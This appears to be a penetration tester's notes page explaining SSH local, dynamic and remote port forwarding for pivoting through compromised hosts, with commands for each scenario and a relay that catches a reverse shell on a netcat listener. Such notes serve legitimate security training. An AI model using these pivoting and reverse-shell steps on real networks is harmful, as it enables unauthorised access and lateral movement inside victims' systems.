 # Port Tunneling Explained
I keep notes on how port tunneling works, and specify which scenario to deploy which technique.

## SSH Port Tunneling for exploitation

### Scenario 1: 
- The service of my target machine (10.10.1.10) is serving only at lo interface at 127.0.0.1:3306. It does not serve at 0.0.0.0:3306.
- There is an open SSH service at 10.10.1.10:22 or 0.0.0.0:22.
- I have obtained credentials to the SSH service.

Technique #1: Local Port Forwarding via SSH.

```sh
(host)# ssh -L 3307:127.0.0.1:3306 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      22582/ssh
...
(host)# nc 127.0.0.1 3307
...
```

**Explanation:**
The first 3307 refers to opening a local port on your host machine. The 127.0.0.1:3306 refers to the remote host's service.
This will create an SSH tunnel to relay connection to your host's port 3307 to the target service.

Technique #2: Dynamic port forwarding via SSH to any internal target(including localhost) reachable by jumphost.

```sh
(host)# tail /etc/proxychains.conf
...
[ProxyList]
socks5  127.0.0.1 8001
(host)# ssh -D 8001 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      31049/ssh
...
(host)# proxychains nc -nv 127.0.0.1 3306
...
```

**Explanation:**
We first edit our proxychains configuration file to set a SOCKS proxy at 127.0.0.1:8001.
Then, by using SSH dynamic port forwarding, we create a SOCKS proxy at port 8001 with the `-D` option.
Next, we can process to prefix any CLI commands with proxychains that will route our requests through this SOCKS proxy.
Note that the Curl command was in fact connecting to the exploited machine's localhost instead of our host's localhost! 
If you're still confused, refer to Scenario 3.

### Scenario 2:
- The service of my exploited machine (10.10.1.10) is serving only at lo interface at 127.0.0.1:3306. It does not serve at 0.0.0.0:3306.
- There is *no open* SSH server at 10.10.1.10:22 nor 0.0.0.0:22. The port is filtered. There is a firewall blocking. 
- I have gained of Remote Code Execution on the machine. 
- There is an SSH client inside the exploited server.
- I would like to tunnel the service back to my host machine (10.10.1.32)

Technique: Reverse/Remote Port Forwarding via SSH.

```sh
(host)# service ssh start
(exploited)$ ssh -R 3307:127.0.0.1:3306 kali@10.10.1.32
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      25748/sshd
...
(host)# nc 127.0.0.1 3307
```

**Explanation:**
Within the exploited machine, we use the ssh client found inside exploited machine to connect back to our sshd hosted at our host machine with our set of credentials. 

The first 3307 refers to opening a local port on your remote machine (my host at 10.10.1.32). 
The 127.0.0.1:3306 refers to the local host's (exploited) service.
This will create an SSH tunnel to relay connection to your host's port 3307 to the target service.

The format looks very similar to local port forwarding. TLDR, think of it as the same format but we swapped `-L` to `-R` for a reverse connection.

### Scenario 3:
- I have exploited a machine (10.10.1.10) that has access to another internal admin network on another network interface eth2 (172.16.1.10).
- There is an admin web interface at 172.16.1.2:80 that I would like to access to this through my exploited machine as a jump host.
- There is an open SSH server at 10.10.1.10:22 or 0.0.0.0:22. 
- I have obtained credentials to the SSH service.

Technique #1: Local port forwarding via SSH to a single internal target.

```sh
(host)# ssh -L 8001:172.16.1.2:80 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      31049/ssh
...
(host)# curl -v http://127.0.0.1:8001/
...
```

**Explanation:**
The first 8001 refers to opening a local port on your host machine. The 172.16.1.2:80 refers to the admin web panel located inside the intranet.
This will create an SSH tunnel to relay connection to your host's port 8001 to the target service. This is very similar to Scenario 1 except this time, we specify a specific remote target which is the intranet admin panel instead of 127.0.0.1.

Technique #2: Dynamic port forwarding via SSH to any internal target reachable by jumphost.

```sh
(host)# tail /etc/proxychains.conf
...
[ProxyList]
socks5  127.0.0.1 8001
(host)# ssh -D 8001 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      31049/ssh
...
(host)# proxychains curl -v http://172.16.1.2/
...
```

**Explanation:**
We first edit our proxychains configuration file to set a SOCKS proxy at 127.0.0.1:8001.
Then, by using SSH dynamic port forwarding, we create a SOCKS proxy at port 8001 with the `-D` option.
Next, we can process to prefix any CLI commands with proxychains that will route our requests through this SOCKS proxy and reach the admin panel.
The benefit of this is that we are no longer limited to a single remote target hardcoded in our Local Port Forwarding. 

`-D` is `-L` but on steroids!

### Scenario 4: 
- I have exploited a machine (10.10.1.10) that has access to another internal admin network on another network interface eth2 (172.16.1.10).
- There is an admin web interface at 172.16.1.2:80 that I would like to access to this through my exploited machine as a jump host.
- There is *no open* SSH server at 10.10.1.10:22 nor 0.0.0.0:22. The port is filtered. There is a firewall blocking. 
- I have gained of Remote Code Execution on the machine. 
- There is an SSH client inside the exploited server.
- I would like to tunnel the admin web portal back to my host machine (10.10.1.32)

Technique: Reverse/Remote Port Forwarding via SSH a single internal target back to host.

```sh
(host)# service ssh start
(exploited)$ ssh -R 8001:172.16.1.2:80 kali@10.10.1.32
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      115384/sshd
...
(host)# curl -v http://127.0.0.1:8001/
```

**Explanation:**
This is similar to Scenario 2. We changed the 127.0.0.1 to the intranet web portal service at 172.16.1.2:80.

### Scenario 5:
- I have gained access to intranet admin web portal (172.16.1.2:80) via my exploited jump host (10.10.1.10 or 172.16.1.10) via Scenario 3.
- I found a vulnerability on 172.16.1.2:80 and I want to get a reverse connection back to my host machine (10.10.1.32). 
- There is an SSH client inside the jumphost.

Technique: Local Port Forwarding via SSH within jumphost to send reverse connection back to our host

```sh
(host)# service ssh start
(host)# nc -nlvp 9999
(host)# netstat -antp
...
tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      100026/nc
...
(jumphost)$ ssh -L 172.16.1.10:4444:10.10.1.32:9999 kali@10.10.1.32
(jumphost)$ netstat -antp
...
tcp        0      0 172.16.1.100:9877       0.0.0.0:*               LISTEN      2283967/ssh
...
(host)# proxychains exploit.py --lhost=172.16.1.10 --lport=4444
```

**Explanation:**
I first start my own host's SSHd. I set a netcat listener at port 9999 to catch a reverse connection back on my host machine (10.10.1.32). 
Inside my jumphost, I leverage the SSH client found inside to perform a Local Port Forwarding instead. Interesting fact: Local Port Forwarding allows us to set a binding address without requiring any special option being enabled on the jumphost's SSHd configuration, unlike Remote Port Forwarding.
I can either set my binding address to 172.16.1.10 or 0.0.0.0. This will create a port 4444 listener on our jumphost as seen in our netstat. I then set the remote address pointing to my host's netcat at 10.10.1.32:9999. We can then exploit the admin web portal to call a reverse connection to our jumphost at 172.16.1.10:4444 which will be redirected back to our netcat listener, thus catching a reverse shell. 

#### Why did I not try Reverse/Remote Port Forwarding? 

I have failed to successfully set a binding address via `-R` connecting from my host. The listening port will only bind to 127.0.0.1:4444. This is not good as we cannot use this to catch reverse connection back to this jump host.

I found out the reason why was due to an option not being enabled as documented in the Man page for SSH -R: 
> By default, TCP listening sockets on the server will be bound to the loopback interface only.  This may be overridden by specifying a bind_address.  An empty bind_address, or the address ‘*’, indicates that the remote socket should listen on all interfaces.  Specifying a remote bind_address will only succeed if the server's GatewayPorts option is enabled (see sshd_config(5))

